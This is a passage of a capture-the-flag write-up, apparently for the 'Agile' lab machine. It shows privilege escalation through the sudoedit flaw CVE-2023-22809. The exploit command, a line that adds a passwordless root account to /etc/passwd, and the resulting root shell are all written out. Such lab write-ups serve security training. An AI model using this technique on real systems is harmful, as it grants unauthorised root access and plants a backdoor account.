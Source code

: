 ### Privilege Escalation

One possible exploit found for CVE-2023-22809 :
https://github.com/n3m1dotsys/CVE-2023-22809-sudoedit-privesc/blob/main/exploit.sh

we need to modify a file that dev_admin can control. /app/venv/bin/activate can be written :

```bash
ls -la activate
```

```text
-rw-rw-r-- 1 root dev_admin 1976 Jul 12 11:57 activate
```

Let's excecute the exploit :

```bash
EDITOR='vim -- /app/venv/bin/activate'  sudoedit -u dev_admin /app/config_test.json
```

At the end of the file, write :

```text
echo "fake::0:0:root:/root:/bin/bash" >> /etc/passwd
```

Then wait for the cron job to execute the script.

The line is aded to passwd :

```text
fake::0:0:root:/root:/bin/bash
```

then we can have a root account without password :

```bash
su - fake
root@agile:~# id
uid=0(root) gid=0(root) groups=0(root)
```

